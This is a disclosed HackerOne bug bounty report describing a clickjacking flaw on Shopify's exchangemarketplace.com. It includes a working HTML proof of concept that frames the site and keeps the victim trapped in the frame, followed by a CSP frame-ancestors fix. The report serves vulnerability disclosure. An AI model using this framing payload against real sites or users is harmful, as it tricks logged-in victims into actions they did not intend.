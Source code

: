 # Clickjacking in [exchangemarketplace.com]

## Report Details
- **Report ID**: 658217
- **URL**: https://hackerone.com/reports/658217
- **State**: Closed
- **Severity**: low
- **Submitted**: 2019-07-24T14:44:09.704Z
- **Disclosed**: 2019-09-18T20:24:27.441Z

## Reporter
- **Username**: eissen5c
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
Hi Team,

#Summary:
X-Frame-Options ALLOW-FROM https://exchangemarketplace.com not supported by several Browser, this caused Clickjacking on https://exchangemarketplace.com

#Type of issue : 
Clickjacking

#Description:
Clickjacking (User Interface redress attack, UI redress attack, UI redressing) is a malicious technique of tricking a Web user into clicking on something different from what the user perceives they are clicking on.

#Sensitive Action :
If user already logged in it will more sensitive to victim
Inbox
Logout
Searching Store
Browsing the Store
Sell your business related
Almost Everything can vulnerable to clickjacking on the site

#Steps To Reproduce:
Save Code as HTML file contains following code:
```
Vulnerable to Clickjacking
<script  >function t(e){window.setTimeout("stop();",10);}window.onbeforeunload=t;var frames=new Array();</script>
<div  qjid="quickjack" style="overflow: hidden; width: 1330px; height: 539px; position: relative;" id="cksl6">
<iframe   name="cksl7" src="https://exchangemarketplace.com" style="border: 0pt none ; left: -6px; top: -3px; position: absolute; width: 1366px; height: 576px;" scrolling="no" onload="window.cksl3='';window.cksl1=function(arg){if(!window.cksl2)window.cksl2=arg;if(window.cksl2<arg){if(window.cksl3){self.location.href=window.cksl3;}else {var c4=document.getElementById('cksl6').style;var c5=document.getElementsByName('cksl7')[0].style;document.body.style.overflow='hidden';document.body.style.width=document.body.style.height=c4.width=c5.width=c4.height=c5.height='100%';c4.position=c5.position='absolute';c4.overflow=c5.overflow='visible';c4.top=c5.top=c4.left=c5.left='0px';}window.cksl2=arg;}setTimeout('window.cksl1(history.length)',1000);};setTimeout('window.cksl1(history.length)',2000);"></iframe></div>
```

#Solution:
Based on Report : #591432
The vulnerability can be fixed by adding "frame-ancestors 'self';" to the CSP (Content-Security-Policy) header.

#Reference (Related Case in this Report)
https://hackerone.com/reports/591432
https://www.owasp.org/index.php/Clickjacking

#Proof of Concept
{F538039}

## Impact

Attacker may tricked user, sending them malicious link then user open it clicked some , Sensitive actions such as the more user already logged in it will more sensitive , inbox , logout , searching store , browsing the store , sell your business related and Almost Everything can vulnerable to clickjacking on the site.

Regards
eissen5c

## Attachments
- clickjacking.JPG
